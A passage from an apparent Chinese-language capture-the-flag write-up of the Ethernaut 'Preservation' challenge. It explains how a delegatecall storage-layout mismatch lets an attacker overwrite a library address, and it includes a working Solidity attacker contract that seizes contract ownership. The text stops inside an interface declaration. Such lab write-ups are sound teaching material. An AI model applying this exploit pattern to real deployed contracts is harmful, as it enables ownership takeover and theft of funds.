 關鍵漏洞：使用 `delegatecall` 時，儲存槽位置的對應關係非常重要。當 Preservation 合約通過 delegatecall 調用庫合約的 `setTime` 函數時，雖然代碼在庫合約的上下文中執行，但是會修改 Preservation 合約的狀態。

問題在於 LibraryContract 和 Preservation 的儲存槽佈局不匹配：
- Preservation 合約中，第一個儲存槽是 `timeZone1Library` (address)
- LibraryContract 合約中，第一個儲存槽是 `storedTime` (uint256)

這意味著當 LibraryContract 的 `setTime` 函數修改 `storedTime` 時，實際上會修改 Preservation 的 `timeZone1Library` 變數。

## 攻擊步驟

1. 部署一個惡意庫合約，其儲存佈局與 Preservation 合約相匹配
2. 調用 `setFirstTime` 函數，傳入我們惡意庫合約地址（轉換為 uint256）
3. 再次調用 `setFirstTime`，這次會執行我們惡意庫合約的 `setTime` 函數
4. 在惡意 `setTime` 函數中，直接修改 `owner` 變數為攻擊者地址

## 專案結構

```
16-preservation/
├── contracts/
│   ├── Preservation.sol        # 原始挑戰合約
│   └── PreservationAttacker.sol # 攻擊合約
├── scripts/
│   └── deploy_PreservationAttacker.ts # 部署和攻擊腳本
├── hardhat.config.ts           # Hardhat 配置
└── README.md                   # 本文檔
```

## 合約實現

我們的攻擊合約如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract PreservationAttacker {
    // 確保儲存佈局與 Preservation 一致
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    IPreservation public preservation;

    constructor(address _preservation) {
        preservation = IPreservation(_preservation);
    }

    function attack() public {
        // 第一步：將 timeZone1Library 改為我們的攻擊合約地址
        preservation.setFirstTime(uint256(uint160(address(this))));
        // 第二步：執行我們的 setTime 函數，改變所有者
        preservation.setFirstTime(1); // 參數不重要
    }

    function setTime(uint256 _timeStamp) public {
        owner = tx.origin; // 將合約所有者修改為我們的地址
    }
}

interface IPreservation {
```